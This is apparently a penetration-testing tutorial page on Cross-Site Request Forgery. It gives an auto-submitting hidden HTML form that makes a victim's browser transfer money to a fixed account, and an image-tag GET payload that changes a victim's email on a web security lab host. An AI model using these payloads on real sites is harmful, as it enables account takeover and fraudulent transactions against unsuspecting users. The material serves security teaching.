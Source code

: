 # Cross-Site Request Forgery (CSRF)
Cross-Site Request Forgery (CSRF) is an attack that ***forces authenticated users to submit a request to a Web application against which they are currently authenticated***. <br />
CSRF attacks exploit the trust a Web application has in an authenticated user.
These attacks can be delivered via either the GET or POST method, depending on the scenario.


## Basic CSRF via POST method.
### Basic CSRF via POST method EXPLANATION:
We can perform a CSRF using the POST method. To do this, we have to do the action we want to exploit in our own account and capture the resulting POST request. Once we have it, we create an html form to deliver it. 
We can use automated resources such as [CSRF PoC-Generator](https://hacktify.in/hacktify-csrf-poc-generator/), or we can use the following script customizing it to our own situation:
```html
<html>
<body>
<form action="https://xymbank.com/online/transfer" method="POST">
<input type="hidden" name="amount" value="500"/>
<input type="hidden" name="account" value="654585" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```

### Basic CSRF via POST method EXPLOITATION:
- First, we capture the POST method:<br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/54d619ca-980e-43c2-aa79-b6cd7fd7047c" width="600"><br />
- Finally, we create the CSRF PoC to deliver it to our victim:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/41cfc524-504d-4f8c-8130-fc019b00d52e" width="700"><br />




## Basic CSRF via GET method EXPLOITATION:
- First, we capture the POST method of the parameter we want to change to our target. We have to **change the request methods** as follows:<br />



- Finally we can take the GET URL, changing the way we want to make all the changes we want to do in the victim, and finally delivered it, in this case as a <img>:<br />

  ```html
  <img src="https://0aef003d03e974bd832f197c007b0012.web-security-academy.net/my-account/change-email?email=changingEmail%40gmail.com" width="1" height="1" alt="Message"/>
  ```


